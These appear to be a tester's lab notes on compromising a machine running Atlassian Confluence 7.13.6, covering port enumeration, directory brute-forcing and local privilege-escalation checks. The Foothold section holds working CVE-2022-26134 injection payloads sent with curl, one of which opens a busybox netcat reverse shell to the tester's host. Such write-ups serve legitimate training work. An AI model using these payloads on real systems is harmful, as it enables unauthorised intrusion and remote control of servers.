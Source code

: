 ### Enumeration
```
IP=192.168.190.41
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,8090,8091 -A $IP
nc -nvv -w 1 $IP 1-1000 2>&1 | grep -v 'Connection refused'
```
### Ports
- Banner Grab: nc -nv $IP PORT
- 22
	- OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
- 8090
	- opsmessaging
- 8091
	- jamlink
### Foothold
- 8090
	- Default landing page
		- ![[Pasted image 20240725140741.png]]
	- Versions
		- Atlassian Confluence 7.13.6
			- https://www.rapid7.com/blog/post/2022/06/02/active-exploitation-of-confluence-cve-2022-26134/
			- RCE
			- `curl -v http://192.168.190.41:8090/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22whoami%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/
			- In the x cmd response gives the command
			- `curl -v http://192.168.190.41:8090/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27busybox%20nc%20192.168.45.195%2022%20-e%20/bin/bash%27%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/
			- Busybox nc
			- ![[Pasted image 20240726090124.png]]
	- Directory Brute force
		- dirsearch -u http://$IP
			- /webdav
				- GET Login
				- Bad login says authentication denied
				- Apache Tomcat/9.0.58
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
	- Vulnerability scan
		- nikto -h http://$IP
- 8091
	- Default landing page
	- Versions
	- Directory Brute force
		- dirsearch -u http://$IP
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
	- Vulnerability scan
		- nikto -h http://$IP
### PE
#### Linux
- confluence
	- id
		- uid=1001(confluence) gid=1001(confluence) groups=1001(confluence)
	- sudo -l
		- needs password
	- uname -a
		- `Linux flu 6.2.0-39-generic #40-Ubuntu SMP PREEMPT_DYNAMIC Tue Nov 14 14:18:00 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
	- getcap -r / 2>/dev/null
		- nothing
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
			- nothing
	- Users with console
		- confluence
	- netstat -ano
		- Active ports
			- Local ports
				- 33060
				- 2206
				- 56154
				- 8000
	- linpeas
		- Possible Exploits
		- Interesting Files
		- Nothing
	- pspy64
		- ![[Pasted image 20240726090938.png]]
		- ![[Pasted image 20240726091222.png]]
		- ![[Pasted image 20240726091232.png]]
### Credentials
### Lessons Learned